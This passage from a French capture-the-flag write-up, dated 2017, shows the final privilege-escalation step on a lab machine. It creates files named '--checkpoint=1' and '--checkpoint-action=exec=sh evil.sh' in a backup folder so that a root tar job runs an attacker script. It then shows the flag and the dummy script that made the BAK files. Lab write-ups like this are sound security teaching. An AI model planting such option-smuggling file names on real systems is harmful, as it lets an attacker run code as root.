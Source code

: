 ```bash
cd /home/rene/backup; touch -- "--checkpoint=1"; touch -- "--checkpoint-action=exec=sh evil.sh"; touch a
```

On attend un peu et on touche le jackpot :  

![PIPE CTF flag](https://raw.githubusercontent.com/devl00p/blog/master/images/pipe_ctf.png)

Au passage le script qui générait les fichiers BAK n'était là que pour la forme :  

```bash
#!/bin/bash

head -c $RANDOM /dev/urandom > "/home/rene/backup/sys-$RANDOM.BAK"
chown rene:rene /home/rene/backup/*.BAK
```

*Published November 17 2017 at 16:47*